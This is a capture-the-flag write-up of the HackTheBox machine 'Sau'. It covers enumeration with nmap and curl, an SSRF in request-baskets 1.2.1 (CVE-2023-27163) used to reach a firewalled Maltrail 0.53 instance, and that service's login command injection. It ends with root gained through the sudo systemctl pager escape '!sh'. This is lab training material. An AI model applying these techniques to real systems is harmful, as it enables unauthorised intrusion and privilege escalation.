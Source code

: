 ```yaml
---
slug: /write-up/htb/machines/easy/sau
pagination_next: null
pagination_prev: null
---
```


## Enumeration

Initial scan shows some open ports:

```bash
└──╼ $nmap sau.htb -oA scans/initial_scan -Pn -n
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 19:10 BST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.14s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 20.00 seconds
```

Port 80 is behind a firewall.

SSH:
```bash
└──╼ $nmap sau.htb -oA scans/ssh_scan -Pn -n -p22 -sC -sV
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 19:11 BST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 4.73 seconds
```

We are dealing with an ubuntu focal.

55555:
The nmap is taking a lot of time in determining the service. However, if we `curl` the port, we can see that it's a webserver:

```bash
└──╼ $curl -vvv sau.htb:55555
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555 (#0)
> GET / HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 302 Found
< Content-Type: text/html; charset=utf-8
< Location: /web
< Date: Wed, 27 Sep 2023 18:17:35 GMT
< Content-Length: 27
< 
<a href="/web">Found</a>.
```

The result from nmap came back and say that it cannot determine the service. We can see that if has something to do with baskets:

```
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
```

If we curl the home page, we can see something interesting:
```html
        <small>
          Powered by <a href="https://github.com/darklynx/request-baskets">request-baskets</a> |
          Version: 1.2.1
        </small>
```

Checking the website source code from the browser, we can see that there's a basket API which used a "Master token" for auth.

```js
        $.ajax({
          method: "POST",
          url: "/api/baskets/" + basket,
          headers: {
            "Authorization" : sessionStorage.getItem("master_token")
          }
```

After reading a bit, looks like the service is a server used to display HTTP requests

## Foothold

Knowing the service and version, we can search for CVEs. 

https://github.com/entr0pie/CVE-2023-27163

Looks like we can abuse of the request-baskets to access the webserver listening on port 80 but firewalled and...it's working:

```bash
┌─[parrot@parrot]─[~/workspace/gal/htb/machines/sau/exploits]
└──╼ $./CVE-2023-27163.sh http://sau.htb:55555/ http://127.0.0.1
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "zfqies" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/zfqies now makes the server request to http://127.0.0.1.
> Authorization: sXxaCFrbUXtDv3qiltNRTbGju6JosLVH8fL2DkqyeiN9
```

```bash
└──╼ $curl -vvv http://sau.htb:55555/zfqies
*   Trying 10.10.11.224:55555...
* Connected to sau.htb (10.10.11.224) port 55555 (#0)
> GET /zfqies HTTP/1.1
> Host: sau.htb:55555
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Cache-Control: no-cache
< Connection: close
< Content-Security-Policy: default-src 'self'; style-src 'self' 'unsafe-inline'; img-src * blob:; script-src 'self' 'unsafe-eval' https://stat.ripe.net; frame-src *; object-src 'none'; block-all-mixed-content;
< Content-Type: text/html
< Date: Thu, 28 Sep 2023 09:29:31 GMT
< Last-Modified: Tue, 31 Jan 2023 18:18:07 GMT
< Server: Maltrail/0.53
< Transfer-Encoding: chunked
< 
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta http-equiv="Content-Type" content="text/html;charset=utf8">
        <meta name="viewport" content="width=device-width, user-scalable=no">
        <meta name="robots" content="noindex, nofollow">
```

In the firewalled webserver there's an instance of maltrail 0.53 service, which making a quick google search has a OS command injection vulnerability in the username field of the /login endpoint. There's even a metasploit module to explot it. See: https://packetstormsecurity.com/files/174221/Maltrail-0.53-Unauthenticated-Command-Injection.html

I've made some attempts with the bash and sh payloads from reverse shell and base64 encoded, also play around with data encoding (url encode, form encode, ...)

Finally I've made it work by using a python payload, base64 and form encoding.

We can read the user flag


## Privilege escalation

`sudo -l` shows that the user can execute systemctl status as any user (including root):

```
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Let's search how to explot that in GTFO bins, looks like the default pager for systemctl is `less`, we can have access to root by just typing: `!sh` and voila!

We can read root flag.